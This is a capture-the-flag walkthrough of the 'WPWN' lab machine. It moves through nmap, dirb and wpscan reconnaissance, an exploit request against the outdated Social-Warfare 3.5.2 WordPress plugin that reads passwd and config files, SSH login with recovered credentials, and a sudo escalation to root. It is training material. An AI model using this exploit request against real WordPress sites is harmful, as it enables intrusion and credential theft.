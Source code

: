 *WPWN*  

**RECON**
---
**Ip Search**  
Our IP leads us to this blank page lets move to scanning  
![image6](https://user-images.githubusercontent.com/66635295/158526173-aa39b52e-d9c3-4ac0-8865-9792b5497a4f.png)
**Nmap Scan**  
<pre>nmap -sV -sC 192.168.55.123</pre>  
-version -safescan
Port 22, and 80 are open  
![image3](https://user-images.githubusercontent.com/66635295/158744691-d688bd5d-81d7-4af4-b510-a2e1b527177f.png)  
**Scan for hidden directories (dirbuster)**   
[dirb http:// 192.168.55.123]  
![image8](https://user-images.githubusercontent.com/66635295/158747642-86dbd602-e37e-499f-b37f-430b1b4870e5.png)  
**WordPress Page**  
![image7](https://user-images.githubusercontent.com/66635295/158747979-04e74459-23fc-4d85-add5-2ddb83e22836.png)  
**Scan for wordpress vulnerabilities**   
[wpscan --url http:// 192.168.55.123/wordpress/]
![image1](https://user-images.githubusercontent.com/66635295/158748297-d989c1f4-acdc-4e01-bef1-9e606e4ed10c.png)  
**Scan reveals outdated plugin named Social-Warfare 3.5.2**  
This Vulnerability allows commands to run for obtaining user Credentials  
![image15](https://user-images.githubusercontent.com/66635295/158748468-74c92d41-881e-4414-9070-43a2bb30d4f1.png)  
**Payload File**    
Shows passwd file contents  
![image5](https://user-images.githubusercontent.com/66635295/158751852-ada62fb4-56f6-4e2f-ae20-68cd67dd5b81.png)

**Python Simple server**  
[python3 -m http.server 80]  
![image14](https://user-images.githubusercontent.com/66635295/158752244-0f7a0d8f-8f83-41cd-b61b-d747a62290ce.png)




**ENUMURATION**
---
**Visit Website**  
[http:// 192.168.55.123/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://localhost/payload.txt]    
User Takis is revealed 
![image10](https://user-images.githubusercontent.com/66635295/158752455-4b285dee-5cd6-4449-a4f3-9d179e54d6a2.png)  
**Config.php**  
Word press config.php holds important info. The payload can be used to check for it  
![image9](https://user-images.githubusercontent.com/66635295/158752587-5af73a09-806d-4ada-bb96-16bcc3e5bd9e.png)
**Visit Website**  
Viewing the source reveals a password for a SQL database  
![image11](https://user-images.githubusercontent.com/66635295/158753420-c9d6f360-973a-4eb9-b88d-afbf3f213196.png)

**Privilege Escalation**
---
**Server SSH**  
[sudo ssh takis@192.168.55.123]  
![image4](https://user-images.githubusercontent.com/66635295/158753672-415311f6-028b-4345-8a98-cfcf7a3a7ed9.png)  
**User Flag**      
local.txt  
![image13](https://user-images.githubusercontent.com/66635295/158753764-e78a55f8-f9fa-4179-8dc4-fe9691bcf19c.png)     
**Check User Privileges**    
![image12](https://user-images.githubusercontent.com/66635295/158753967-f2d267fc-93d9-442f-94c4-b7463bf2db7c.png)    

**Root Escalation**
---  
**Root Flag**  
[sudo su]    
![image2](https://user-images.githubusercontent.com/66635295/158754479-c0661600-777c-40ca-bd02-90885402a584.png)

